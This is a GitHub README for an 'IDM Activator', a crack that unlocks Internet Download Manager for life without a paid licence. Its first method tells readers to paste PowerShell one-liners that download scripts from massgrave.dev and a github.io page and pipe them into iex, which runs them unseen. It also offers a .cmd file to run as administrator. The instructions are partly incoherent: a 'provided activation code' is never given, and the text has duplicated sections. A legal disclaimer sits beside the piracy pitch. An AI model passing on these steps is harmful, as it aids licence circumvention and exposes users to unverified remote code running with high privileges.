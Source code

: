 # ACTIVE IDM FOR LIFETIME

# IDM - Internet Download Manager

Activate IDM for Lifetime: The fastest download accelerator.

### Method 1 - PowerShell (Recommended)
1. Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
2. Copy and paste the code below and press enter:
    ```powershell
    irm https://massgrave.dev/ias | iex
    ```
    
    ```powershell

    iwr -useb https://naeembolchhi.github.io/IDM-Activator/IDMA.ps1 | iex

    ```

4. Follow the on-screen instructions for activation.


## Description
IDM (Internet Download Manager) is a popular download manager known for its fast download speeds and enhanced features. This repository provides a method to activate IDM for a lifetime, allowing you to enjoy its full capabilities without limitations.

## Features
- Activates IDM for a lifetime license
- Unlock premium features and functionalities
- Enjoy accelerated download speeds and stable connections
## Prerequisites
Before using the IDM Activator, make sure you have the following:
- Windows operating system
- Internet Download Manager (IDM) installed on your system

## Installation
To install the IDM Activator, follow these steps:
![image](https://github.com/kamrullab/idm/assets/128359757/16b15848-5a32-4cdc-8bdf-68dbef8040aa)

1. Download the IDM Activator from the following link:  [DOWNLOAD IDM ACTIVATOR](https://github.com/kamrullab/idm/blob/main/IDM.cmd)
2. Save the downloaded file to your computer.
3. Double-click the downloaded file to run the IDM Activator.

## Usage
1. Ensure that IDM is installed on your system.
2. Run the IDM Activator by double-clicking the downloaded file.
3. Follow the on-screen instructions provided by the Activator.
4. Once the activation process is complete, restart IDM if it was running.


## Usage
1. Create a text file with any name and input the provided activation code.
2. Rename the text file with a `.cmd` extension (e.g., `activation.cmd`).
3. Run the `.cmd` file as an administrator by right-clicking and selecting "Run as administrator."
4. Follow the on-screen instructions to activate IDM.
5. Once activated, enjoy IDM's premium features for a lifetime.


# NOW RUN AND SEE YOUR IDM WAS ACTIVE
![image](https://user-images.githubusercontent.com/128359757/226404270-4cec6bdc-f1ca-4d93-9a64-f7cd38621067.png)

## Note
Please ensure that you use this method responsibly and only activate IDM with a valid license or if you have legally obtained the software. Piracy and unauthorized use of software are against the law and violate copyright regulations. This repository does not endorse or support illegal activities.

## Contributing
Contributions to this repository are welcome. If you have suggestions for improvements, please open an issue or submit a pull request.

## Disclaimer
This repository and its contributors are not responsible for any misuse or illegal activities related to IDM activation. Please ensure that you comply with the terms and conditions set by the IDM software and use it responsibly and legally.
## CREDITS

All credit goes to:

- NSANEFORUMS
- DUKUN CABUL
- WINDOWSADDICT
- AVEYO AKA BAU
- ABBODI1406
- DBENHAM
- ELITEKAMRUL

Feel free to acknowledge their contributions.

## License
This project is licensed under the [MIT License](LICENSE).
